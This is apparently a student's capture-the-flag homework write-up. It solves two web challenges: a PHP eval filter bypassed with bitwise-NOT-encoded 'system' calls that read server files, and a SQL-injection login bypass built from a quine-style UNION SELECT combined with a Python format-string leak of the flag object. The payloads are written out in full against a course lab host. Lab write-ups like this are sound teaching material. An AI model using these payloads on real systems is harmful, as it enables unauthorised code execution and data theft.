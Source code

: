 # HW0x05 writeup

## (#°д°)

> `FLAG{peeHpeeeeee(#°д°)!}`

### Problem

```php
<?=highlight_file(__FILE__)&&strlen($🐱=$_GET['(#°д°)'])<0x20&&!preg_match('/[a-z0-9`]/i',$🐱)&&@eval($🐱);
```

### solution

1. observer the problem

   - ```php
     strlen($🐱=$_GET['(#°д°)'])<0x20
     ```

     - variable that is the value of `(#°д°)` send via get request should not be longer than **32**

   - ```php
     !preg_match('/[a-z0-9`]/i',$🐱)
     ```

     - variable, 🐱, should not include any letter, digit, and <code>`</code>. 

   - ```php
     @eval($🐱)
     ```

     - evaluate the **string** variable, 🐱, as `PHP` code

2. try to send **get request** via `https://php.splitline.tw/?(#°д°)=asdf`

   - **FAILED**
     - *Query String Parameters* $\rightarrow$ `(:`
   - use **url encode**
     - `(#°д°)` $\rightarrow$ `%28%23%C2%B0%D0%B4%C2%B0%29`
     - send **request** via `https://php.splitline.tw/?%28%23%C2%B0%D0%B4%C2%B0%29=asdf`

3. contruct valid string of `(phpinfo)();`

   - use `~` operator

   - ```php
     php > echo urlencode(~"phpinfo");
     %8F%97%8F%96%91%99%90
     ```

   - send **request** $\rightarrow$ `https://php.splitline.tw/?%28%23%C2%B0%D0%B4%C2%B0%29=(~"%8F%97%8F%96%91%99%90")();`

4. search through display of previous step

   - `disable_functions` $\rightarrow$ *no value*

5. construct valid string of `(system)();`

   - ```php
     php > echo urlencode(~"system");
     %8C%86%8C%8B%9A%92
     ```

6. contruct **executed command**

   > ``https://php.splitline.tw/?%28%23%C2%B0%D0%B4%C2%B0%29=(~"%8C%86%8C%8B%9A%92")(~"{executed command}");`

   -  `ls -al`

     - ```php
       php > echo urlencode(~"ls -al");
       %93%8C%DF%D2%9E%93
       ```

     - receive nothing nothing interesting

   - `ls -al /`

     - ```php
       php > echo urlencode(~"ls -al /");
       %93%8C%DF%D2%9E%93%DF%D0
       ```

     - find readable file, `flag_GV99N6HuFj1kpkV45Dp7A6Usk5s5nLUY`

   - `cat /flag_GV99N6HuFj1kpkV45Dp7A6Usk5s5nLUY`

     - ```php
       php > echo urlencode(~"cat /flag_GV99N6HuFj1kpkV45Dp7A6Usk5s5nLUY");
       %9C%9E%8B%DF%D0%99%93%9E%98%A0%B8%A9%C6%C6%B1%C9%B7%8A%B9%95%CE%94%8F%94%A9%CB%CA%BB%8F%C8%BE%C9%AA%8C%94%CA%8C%CA%91%B3%AA%A6
       ```

     - <u>too long to be valid</u>

   - `cat /*`

     - ```php
       php > echo urlencode(~"cat /*");
       %9C%9E%8B%DF%D0%D5
       ```

     - receive flag $\implies$ `FLAG{peeHpeeeeee(#°д°)!}`



## VISUAL BASIC 2077

> `FLAG{qu1n3_sq1_1nj3ct10nnn.__init__}`



1. view hint $\implies$ `_='_=%r;return (_%%_)';return (_%_)`

   - **Quine** in <u>Python3.x</u>
     - takes no input and *outputs a copy of its own code*

2. view `main.py`

   ```python
   cursor = db().cursor()
   query = f"select username, password from users where username='{username}' and password='{password}'"
   cursor.execute(query)
   res = cursor.fetchone()
   
   if res != None and res['username'] == username and res['password'] == password:
     return ("<h1>Hello, " + username + " ｡:.ﾟヽ(*´∀`)ﾉﾟ.:｡ </h1> Here is your flag: {flag} ").format(flag=flag)
   ```

   In order to login successfully, `username, password` that query from **POST request** should match the result.

   $\therefore$ take advantage of **Quine**

3. construct **SQL Quine** ([VisualBasic2077.py](./b05901003/code/VisualBasic2077.py))

   > `username = quine("' UNION SELECT $$ AS username, CHAR(" + str(ord(password)) + ") AS k--")`

   - login successfully

4. look at the *return when login successfully* and 

   ```python
   class Flag():
       def __init__(self, flag):
           self.flag = flag
       def __str__(self):
           return self.flag if session.get('is_admin', False) else "Oops, You're not admin (・へ・)"
   ```

   $\because$ `session['is_admin'] = False`

   $\therefore$ Server will only response with `Oops, You're not admin (・へ・)`. However, by access `flag.flag` directly, one can get the real flag.

5. construct new **SQL Quine**

   > `username = quine("' UNION SELECT $$ AS username, CHAR(" + str(ord(password)) + ") AS k--{flag.flag}")`

   Add `{flag.flag}` after `--`, single line comments in SQL and is able to print out the real flag.

